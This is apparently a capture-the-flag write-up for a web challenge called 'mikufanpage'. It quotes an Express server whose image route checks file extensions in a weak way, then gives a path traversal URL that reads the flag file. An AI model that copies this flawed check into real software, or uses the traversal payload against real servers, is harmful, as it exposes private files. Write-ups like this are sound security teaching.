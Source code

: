 ## web/mikufanpage
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/c3380736-c789-4c58-b3b0-b7bb7918dd0b)
### app.js
```
const express = require('express'); 
const path = require('path');
  
const app = express(); 
const PORT = process.env.PORT ?? 3000;

app.use(express.static(path.join(__dirname, 'public')));
  
app.listen(PORT, (err) =>{ 
    if(!err) 
        console.log("mikufanpage running on port "+ PORT) 
    else 
        console.log("Err ", err); 
}); 

app.get("/image", (req, res) => {
    if (req.query.path.split(".")[1] === "png" || req.query.path.split(".")[1] === "jpg") { // only allow images
        res.sendFile(path.resolve('./img/' + req.query.path));
    } else {
        res.status(403).send('Access Denied');
    }
});
```
- we see it just splits by . and checks the second parms is png or jpg which is clearly a weak check
- we do see the structure of source code
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/8133227a-0618-43b6-9a5a-1ef000b4234f)
- so all we need to do is just get the flag file
![image](https://github.com/m0wn1ka/ctf_writeups/assets/127676379/38f4b6a0-8276-4dd3-b53a-e929be09f1ab)
```
view-source:https://mikufanpage.web.osugaming.lol/image?path=miku5.jpg./../flag.txt
```
